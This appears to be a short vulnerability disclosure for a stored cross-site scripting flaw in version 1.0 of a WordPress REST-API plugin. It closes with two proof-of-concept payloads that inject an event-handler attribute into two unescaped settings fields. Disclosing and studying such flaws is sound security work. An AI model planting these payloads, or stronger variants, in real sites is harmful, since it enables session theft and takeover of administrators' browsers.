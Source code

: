 # Exploit Title: easily-generate-rest-api-url <= 1.0 - Authenticated Stored Cross-Site Scripting (XSS)
# DownloadLink: https://wordpress.org/plugins/easily-generate-rest-api-url/
# Affects Version:1.0
# Original Researcher:websafe2021
# Description:
The WordPress plugin  easily-generate-rest-api-url does not escape its 'add_custom_service_style " and "search_texts" From "Custom RESTAPI Settings' settings, allowing high privilege users such as admin to perform Cross-Site Scripting attacks even when the unfiltered_html capability is disallowed

# Proof of Concept:
```
add_custom_service_style="OnMoUsEoVeR=prompt(777)//
search_texts="OnMoUsEoVeR=prompt(777)//
 ```
 
 
